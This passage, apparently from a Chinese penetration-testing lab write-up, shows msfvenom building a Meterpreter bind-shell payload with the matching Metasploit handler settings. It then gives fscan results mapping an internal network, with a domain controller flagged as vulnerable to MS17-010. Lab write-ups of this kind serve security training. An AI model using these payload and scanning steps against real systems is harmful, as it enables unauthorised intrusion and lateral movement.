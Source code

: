 依旧还是先上线`MSF`，接着上传一下`fscan`收集一下网段信息。

```powershell
msfvenom -p windows/x64/meterpreter/bind_tcp LPORT=5558 -f exe -o 555.exe

set payload windows/x64/meterpreter/bind_tcp
set lport 5558
set rhost 192.168.22.129
```

```
10.10.10.135:445 open
10.10.10.131:445 open
10.10.10.135:3306 open
10.10.10.131:3306 open
10.10.10.1:445 open
10.10.10.133:445 open
10.10.10.1:139 open
10.10.10.133:139 open
10.10.10.135:139 open
10.10.10.131:139 open
10.10.10.133:135 open
10.10.10.135:135 open
10.10.10.1:135 open
10.10.10.131:135 open
10.10.10.131:80 open
10.10.10.133:88 open
10.10.10.1:9999 open
[*] alive ports len is: 17
start vulscan
[*] NetInfo:
[*]10.10.10.131
   [->]12server-web2
   [->]10.10.10.131
   [->]192.168.22.129
[*] WebTitle: http://10.10.10.131       code:200 len:4301   title:演示：JWT实战：使用axios+PHP实现登录认证
[*] NetInfo:
[*]10.10.10.1
   [->]Liu
   [->]192.168.110.1
   [->]10.10.10.1
   [->]192.168.52.1
   [->]192.168.93.1
   [->]192.168.111.1
   [->]192.168.31.42
   [->]192.168.22.1
   [->]172.28.96.1
   [->]172.26.0.1
   [->]192.168.74.1
[+] 10.10.10.133	MS17-010	(Windows Server 2016 Standard 14393)
[*] NetInfo:
[*]10.10.10.135
   [->]12server-data2
   [->]192.168.74.129
   [->]10.10.10.135
[*] NetInfo:
[*]10.10.10.133
   [->]16server-dc1
   [->]10.10.10.133
[*] NetBios: 10.10.10.131    12server-web2.ack123.com            Windows Server 2012 R2 Standard 9600
[*] WebTitle: http://10.10.10.1:9999    code:200 len:1108   title:Directory listing for /
[+] InfoScan: http://10.10.10.1:9999    [目录遍历] 
[*] NetBios: 10.10.10.1      WORKGROUP\LIU                 
```